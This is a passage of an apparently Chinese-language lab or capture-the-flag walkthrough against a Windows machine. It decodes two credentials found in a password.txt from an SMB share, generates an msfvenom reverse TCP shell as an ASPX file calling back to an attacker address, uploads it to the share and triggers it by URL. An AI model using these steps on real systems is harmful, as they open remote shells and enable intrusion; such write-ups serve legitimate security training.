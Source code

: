 get 一下 password.txt

[![](assets/1706771526-e10395637de22569c913c7622216af19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223332-607d44ee-beb3-1.png)

[![](assets/1706771526-6022a6f5fa6ec1b502d0a941dd3acd68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223335-62ae91be-beb3-1.png)

base 解密一下

```bash
Bob - !P@$$W0rD!123
```

```bash
Bill - Juw4nnaM4n420696969!$$$
```

ssh 远程连接一下，这里傻逼了，忘了没开 20 端口，应该不能这么打，这是 windows 的渗透。。。。

应该从刚刚的 SMB 共享入手，SMB 和 linux 下的 ftp 差不多，ftp 怎么打 SMB 其实也差不多

利用**msfvenom**生成一个弹 windows 的 shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.37.127 LPORT=3333 -f aspx -o shell1.aspx
```

之后将我们生成的 shell.aspx put 到 SMB 共享目录

之后我们访问一下

```bash
http://10.10.220.5:49663/nt4wrksv/shell1.aspx
```

[![](assets/1706771526-edb1b2d2b53bcac3797ccf2c33989289.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223341-660c3b54-beb3-1.png)
